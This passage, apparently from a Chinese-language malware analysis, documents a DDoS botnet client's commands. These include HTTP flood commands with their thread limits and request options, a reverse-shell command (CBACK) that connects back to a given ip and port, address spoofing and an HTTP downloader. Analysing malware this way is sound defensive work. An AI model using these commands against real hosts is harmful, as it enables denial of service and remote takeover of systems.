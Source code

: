`UNKNOWN <target> <secs>`

## L7.UNKNOWN

对指定ip和port进行http flood：

`l7.unknown <target> <port> <time> <threads> </shit.php?id=> <random/not> <(n if random) or not> <GET/HEAD/POST>`

threads最大为64；参数6如果为random，则会生成n（n<=10）位的数字作为id值；请求头中的User-Agent会是89选1，POST数据包为1个字节：

![][18]

## L7.UNKNOWN2

与L7.UNKNOWN相似，threads最大为256，增加了host_header：

` l7.unknown2 <targetip> <host_header> <port> <time> <threads> </shit.php?id=> <random/not> <(n if rand om) or not> <GET/HEAD/POST>`

## DNS

解析某一host：

` DNS <host>`

## CBACK

向指定ip和port回传shell：

` CBACK <ip> <port>`

![][19]

## KILLALL

在执行每个指令时客户端都会fork子进程执行并记录其pid，KILLALL就是kill掉所有记录的子进程：

![][20]

## SPOOFS

接收参数则会设置netlong为对应的subnet address，当没有参数时则会移除netlong。

## GETSPOOFS

获取当前spoof的netlong范围。

## GET

http downloader:


[1]: https://wx4.sinaimg.cn/large/ee2fecafly1fnn1zxu0cij21520kj7al.jpg
[2]: https://wx1.sinaimg.cn/large/ee2fecafly1fnn1zzmb3sj20wm0gt40g.jpg
[3]: https://wx4.sinaimg.cn/large/ee2fecafly1fnn2018lq7j20mq0b1abm.jpg
[4]: https://wx4.sinaimg.cn/large/ee2fecafly1fnn202f4awj20k305emy3.jpg
[5]: https://wx4.sinaimg.cn/large/ee2fecafly1fnn203pvxrj20n10abaa8.jpg
[6]: https://wx2.sinaimg.cn/large/ee2fecafly1fnn207ogztj211u0c078d.jpg
[7]: https://wx2.sinaimg.cn/large/ee2fecafly1fnn208bcjdj20l604zdfu.jpg
[8]: https://wx2.sinaimg.cn/large/ee2fecafly1fnn20a7xqgj20zy0c0dio.jpg
[9]: https://wx2.sinaimg.cn/large/ee2fecafly1fnn20arjzxj20n703nweh.jpg
[10]: https://wx2.sinaimg.cn/large/ee2fecafly1fnn20bmud1j20l908v74e.jpg
[11]: https://wx2.sinaimg.cn/large/ee2fecafly1fnn20c2w06j20lk02p745.jpg
[12]: https://wx3.sinaimg.cn/large/ee2fecafly1fnn20ck8rfj20mu03lgli.jpg
[13]: https://wx4.sinaimg.cn/large/ee2fecafly1fnn20d8y7hj20kg0ac74l.jpg
[14]: https://wx2.sinaimg.cn/large/ee2fecafly1fnn20dtawij20m602q3yf.jpg
[15]: https://wx1.sinaimg.cn/large/ee2fecafly1fnn20eqyafj20qr09p74k.jpg
[16]: https://wx4.sinaimg.cn/large/ee2fecafly1fnn20g0rc5j20nn0l3ab1.jpg
[17]: https://wx1.sinaimg.cn/large/ee2fecafly1fnn20gsewij20oq09tt8w.jpg
[18]: https://wx4.sinaimg.cn/large/ee2fecafly1fnn20hey6cj20pb040mxb.jpg
[19]: https://wx1.sinaimg.cn/large/ee2fecafly1fnn20i1y9vj20lj04h3yg.jpg
[20]: https://wx4.sinaimg.cn/large/ee2fecafly1fnn20it1ftj20k104idfr.jpg
[21]: https://wx2.sinaimg.cn/large/ee2fecafly1fnn20juc4ej20lm09k0tq.jpg
[22]: https://wx4.sinaimg.cn/large/ee2fecafly1fnn20kxjj1j20lt07275a.jpg
[23]: https://wx2.sinaimg.cn/large/ee2fecafly1fnn20m58x7j20mb07k0u3.jpg
[24]: https://wx4.sinaimg.cn/large/ee2fecafly1fnn20nqk8pj20m90d20uy.jpg
[25]: https://wx1.sinaimg.cn/large/ee2fecafly1fnn20ob7xoj20nv07mq31.jpg
[26]: https://wx3.sinaimg.cn/large/ee2fecafly1fnn20pab75j20mu07l3ze.jpg